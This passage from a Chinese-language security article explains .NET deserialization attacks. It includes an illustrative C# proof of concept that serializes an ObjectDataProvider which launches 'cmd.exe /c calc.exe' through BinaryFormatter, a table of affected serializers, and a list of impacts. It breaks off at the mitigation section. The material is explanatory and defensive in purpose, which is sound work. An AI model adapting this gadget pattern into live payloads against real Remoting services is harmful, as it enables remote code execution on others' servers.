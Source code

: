 
## 三、经典利用方式（PoC 示例）

```csharp
// 攻击者构造的恶意对象（示意）
var dataProvider = new ObjectDataProvider();
dataProvider.ObjectType = typeof(System.Diagnostics.Process);
dataProvider.MethodName = "Start";
dataProvider.MethodParameters.Add("cmd.exe");
dataProvider.MethodParameters.Add("/c calc.exe");

// 序列化这个对象
IFormatter formatter = new BinaryFormatter();
using (var stream = new MemoryStream())
{
    formatter.Serialize(stream, dataProvider); // 这个 stream 就是恶意 payload
    // 发送给 Remoting 服务
}
```

当服务端反序列化这个流时，`calc.exe` 会被执行。

---

## 四、受影响的组件

| 组件 | 是否受影响 |
|------|-----------|
| `.NET Remoting` | ✅ 高危（默认使用 `BinaryFormatter`） |
| `BinaryFormatter` | ✅ 所有使用它的场景都可能受影响 |
| `LosFormatter` | ⚠️ 部分场景可能受影响 |
| `NetDataContractSerializer` | ⚠️ 如果类型不受控，也可能有问题 |
| `JSON.NET` (Newtonsoft.Json) | ⚠️ 如果设置 `TypeNameHandling = Auto/All`，也可能反序列化攻击 |
| `XmlSerializer` | ❌ 相对安全（不支持任意对象图） |

---

## 五、漏洞影响

- **远程代码执行（RCE）**：攻击者可在服务器上以运行 .NET 服务的权限执行任意命令。
- **权限提升**：如果服务以高权限运行（如 LocalSystem），可完全控制服务器。
- **横向移动**：作为内网渗透的跳板。
- **数据泄露**：读取服务器上的敏感文件、数据库凭据等。

---

## 六、修复与缓解措施
